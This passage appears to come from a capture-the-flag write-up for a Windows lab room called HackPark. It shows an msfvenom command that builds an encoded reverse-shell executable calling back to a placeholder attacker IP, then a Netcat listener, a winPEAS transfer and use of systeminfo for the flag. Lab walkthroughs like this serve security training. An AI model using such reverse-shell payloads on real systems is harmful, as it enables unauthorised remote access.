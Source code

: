 *This section of the room is completed without the use of Metasploit.*

First, we generate a new reverse shell payload using `msfvenom`.

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP_HERE LPORT=9999 -e x86/shikata_ga_nai -f exe -o shell2.exe
```

Next, we gain initial access into the machine again using the BlogEngine exploit. From there, we repeat the same steps to get the **shell2.exe** reverse shell script onto the target machine. 

Next, instead of using Metasploit, we shall set up a basic **Netcat** listener instead. Once everything is set up, we can run the reverse shell with `.\shell2.exe`.

![screenshot24](../assets/images/hackpark/screenshot24.png)

And we're in! 

Now, we just have to transfer the **winPEASx86.exe** in the same manner, then run it.

Unfortunately, I was unable to find the **Original Install Time** in WinPEAS. After looking through the results many times, I decided to forgo using WinPEAS and use the `systeminfo` command instead.

![screenshot25](../assets/images/hackpark/screenshot25.png)

Original Install Time: **8/3/2019, 10:43:23 AM**

